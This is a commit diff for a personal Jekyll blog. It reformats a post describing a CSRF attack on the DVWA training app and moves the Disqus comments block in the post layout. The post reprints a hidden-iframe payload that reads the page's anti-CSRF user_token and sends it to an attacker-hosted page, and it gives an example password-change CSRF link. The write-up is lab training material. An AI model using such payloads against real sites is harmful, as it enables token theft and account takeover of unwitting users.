

Before and after one commit to valentinchelle/valentinchelle.github.io, a Jekyll site: the page built from _posts/2019-02-10-crsf-exploit.markdown, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Fixing Comments

```diff
--- a/_layouts/post.html
+++ b/_layouts/post.html
@@ -54,17 +54,15 @@ layout: default
           {{ content }}
         </div>
 
-        {%- if site.disqus.shortname -%} {%- include disqus_comments.html -%}
-        {%- endif -%}
-
-        <a class="u-url" href="{{ page.url | relative_url }}" hidden></a>
 
     {% for tag in page.tags %}
     <tag class="tag">{{ tag }}</tag>
-    {% endfor %}
+    {% endfor %}<br />
+
+
+    {%- if site.disqus.shortname -%} {%- include disqus_comments.html -%}
+    {%- endif -%}
   </section>
-
-  {% include disqus_comments.html %}
       </article>
     </div>
 
--- a/_posts/2019-02-10-crsf-exploit.markdown
+++ b/_posts/2019-02-10-crsf-exploit.markdown
@@ -1,22 +1,22 @@
 ---
 title: Powerful CRSF exploit with iFrames
 layout: post
-date: "2019-02-10 11:17:20 -0700"
+date: '2019-02-10 11:17:20 -0700'
 tags:
-  - Hacking
-  - Web
+- Hacking
+- Web
 thumbnail: coverhack.svg
 comments: true
 extract: Gives an elegant CRSF exploitation
 ---
 
-I was training my hacking skills on the DVWA, for the attacks CRSF ( Cross Site Request Forgery ) and I wanted an elegant way to orchestrate my attack.
+I was training my hacking skills on the DVWA, for the attacks CRSF ( Cross Site Request Forgery ) and I found an elegant way to orchestrate the CRSF attack with iFrames.
 
 ## Brief Explanation of CRSF
 
-To make it simple, a CRSF is an attack consisting in making the victim do a request without their consent. To get the idea, it could be a link redirecting to : `http://website_not_protected.com/change_password.php?new_password=hacked.`
+To make it simple, a CRSF is an attack consisting of making the victim do a request without their consent. To get the idea, it could be a link redirecting to : `http://website_not_protected.com/change_password.php?new_password=hacked.`
 
-Without any protection from the website, a victim clicking on this link would change their password without noticing. But it is not that easy ( fortunately .. ), that change_password.php page require you to be logged. A way for a hacker to counter this would be to insert some code on the website to redirect you to the page without losing your session cookie ( what keeps you logged on the website ). In that perspective, the hacker needs another exploit to insert some code on the website.
+Without any protection from the website, a victim clicking on this link would change their password without noticing it. But it is not that easy ( fortunately .. ) and that change_password.php page usually requires you to be logged already. A way for a hacker to counter this would be to insert some code on the website to redirect you to the page without losing your session cookie ( what keeps you logged on the website ). In that perspective, the hacker needs another exploit to insert some code on the website.
 
 ## The idea of the iFrames
 
@@ -25,7 +25,8 @@ The iFrames can be used in javascript to open another page, just like this :
 
 <iframe type="hidden" id="iframe"
 src="http://10.6.66.42/dvwa/vulnerabilities/csrf/"
-onload="window.open('//10.6.66.64/index.php"></iframe>
+onload="window.open('//10.6.66.64/index.php">
+</iframe>
 
 {% endhighlight %}
 
@@ -33,7 +34,7 @@ There are very powerful as an hacking tool, since they can be invisible for the
 
 ## The attack
 
-Usually, such an attack requires another weakness. One of the most common exploit that can be used for a CRSF is a XSS. We are going to test our attack on the security high of the DVWA. We need first to prepare our page. We need to send a form to `http://10.6.66.42/dvwa/vulnerabilities/csrf/` that requires a user_token. Here is the page we are going to host :
+Usually, such an attack requires another weakness on the victim's website. One of the most common exploit that can be used for a CRSF is a XSS. We are going to test our attack on the security high of the DVWA. We need first to prepare our page. We need to send a form to `http://10.6.66.42/dvwa/vulnerabilities/csrf/` that requires a user_token. Here is the page we are going to host :
 
 {% highlight html %}
 
@@ -71,9 +72,11 @@ Putting all together, the idea is to create an iFrame that would request `http:/
 
 {% highlight html %}
 
-<iframe type=hidden" id="iframe" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/"
+<iframe type="hidden" id="iframe" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/"
 onload="
 var moken = this.contentDocument.getElementsByName('user_token')[0].value;
 window.open('//10.6.66.64/index.php?user_moken='+moken)
-"></iframe>
+"
+ ></iframe>
+
  {% endhighlight %}
```
Also changed, not shown: _layouts/project.html (+9 -12 lines), _projects/2chellestudio.markdown (+5 -4 lines), _projects/3myoveralls.markdown (+6 -4 lines).
